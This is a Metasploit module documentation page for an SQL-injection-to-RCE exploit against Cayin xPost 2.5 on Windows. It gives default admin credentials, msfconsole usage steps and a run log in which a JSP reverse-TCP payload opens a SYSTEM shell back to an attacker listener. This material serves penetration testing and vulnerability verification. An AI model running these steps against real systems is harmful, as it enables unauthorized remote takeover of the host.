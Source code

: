 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

Default authentication for the system is administrator:admin from
(Guide)[http://onlinehelp.cayintech.com/xPost/PDF/MAXP20EN110504-l.pdf] page 16

## Verification Steps

  1. Install the application and start it
  2. Start msfconsole
  3. Do: ```exploit/windows/http/cayin_xpost_sql_rce```
  4. Do: ```set rhosts [ip]```
  5. Do: ```run```
  6. You should get a shell.

## Options

### LOCALWEBROOT

Path to the `webapps` folder for Cayin.  Defaults to `C:/CayinApps/webapps/`

## Scenarios

### Cayin xPost 2.5 on Windows 10.0.16299.125

  ```
  [*] Processing xpost.rb for ERB directives.
  resource (xpost.rb)> use exploit/windows/http/cayin_xpost_sql_rce
  resource (xpost.rb)> set payload java/jsp_shell_reverse_tcp
  payload => java/jsp_shell_reverse_tcp
  resource (xpost.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (xpost.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (xpost.rb)> set verbose true
  verbose => true
  resource (xpost.rb)> exploit
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [*] Utilizing payload filename cY0bWf1Rh6C9.jsp
  [*] Payload Size: 1499
  [*] Payload Size Encoded: 2998
  [*] Attempting Exploitation
  [*] Triggering uploaded payload
  [*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50158) at 2020-06-09 12:20:33 -0400
  [!] Tried to delete C:/CayinApps/webapps/cY0bWf1Rh6C9.jsp, unknown result
  
  
  C:\CayinApps\Tomcat>
  C:\CayinApps\Tomcat>whoami
  whoami
  nt authority\system
  
  C:\CayinApps\Tomcat>ver
  ver
  
  Microsoft Windows [Version 10.0.16299.125]
  
  C:\CayinApps\Tomcat>
  ```
